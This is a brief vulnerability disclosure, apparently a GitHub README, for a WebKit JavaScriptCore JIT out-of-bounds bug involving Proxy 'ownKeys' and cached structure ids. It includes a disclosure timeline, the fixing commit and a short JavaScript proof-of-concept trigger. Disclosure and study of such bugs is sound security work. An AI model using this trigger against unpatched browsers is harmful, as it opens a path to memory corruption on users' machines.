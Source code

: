 



# An analysis of CVE-2019-XXXX

***Timeline:***<br>
2019-04-27: submitted to the zdi.<br>
2019-05-19: submitted to ssd.<br>
2019-05-27: i read the patches at the webkit head branch.<br>
2019-05-27: i noitified the zdi & ssd.<br>
2019-05-28: sent the report to webkit.<br>
2019-06-01: as i got no response, and as this is fixed upstream,<br>
i have decided to publicly disclose this.<br>

***important note: this is NOT a zeroday, as it is fixed upstream, and its not in the current release...
it might be pushed into the next stable (probably not), but webkit never answered so i don't care much..***<br>

this still affects preview v83, but the offsets are obviously broken..<br>

you can test it with: https://webkit.org/blog/8921/release-notes-for-safari-technology-preview-82/<br>
or with jsc branch: e7d79a7a1ac4a33cf90d7261877355d7b22f58ac <br>

***a brief explanation of the bug:***
<br>
            
Apple Safari: JSC: JIT: JSPropertyNameEnumerator is using cached structure ids,<br>
when 'ownKeys' is inlined with a proxy causing out of bounds access.<br>
((i was inspired by CVE-2018-4416 <br>
[see:https://bugs.chromium.org/p/project-zero/issues/detail?id=1652]<br>
so i went poking around..))<br>

this was fixed here: <br>
https://github.com/WebKit/webkit/commit/80025fef96cb81fc3650c4da2230c624ac253937 <br>

poc triggers: <br>


```javascript

var o = {a:0};

function opt() {
            
    let p = new Proxy({},{ownKeys:(a)=>{return a;}});
    o.__proto__ = p;
    for (let x in o) {}
}

for (let t = 0; t <350;t++){
        opt();
}


```

